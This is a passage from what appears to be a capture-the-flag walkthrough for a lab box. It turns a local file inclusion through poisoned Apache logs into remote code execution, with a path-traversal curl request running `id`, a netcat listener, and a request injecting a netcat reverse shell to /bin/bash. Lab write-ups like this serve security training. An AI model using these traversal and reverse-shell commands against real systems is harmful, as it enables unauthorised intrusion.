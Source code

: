![Image](/assets/images/solstice_blank_useragent.png)

Next we confirm that our exploit is working by triggering a simple cli `id` command. 

```
curl "http://192.168.154.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=id"
```

![Image](/assets/images/solstice_payload_test.png)

We can see that the blank user-agent has been replaced with the output from the `id` command.

Finally, we will use this LFI to RCE path to execute a reverse shell and gain our foothold on the box.

First we start a netcat listener.

```
nc -lvnp 4444
```

![Image](/assets/images/solstice_netcat_listener.png)

Then we send a new request with a command to establish a netcat connection.

```
curl "http://192.168.154.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.162%204444%20-e%20%2F/bin/bash%20"
```
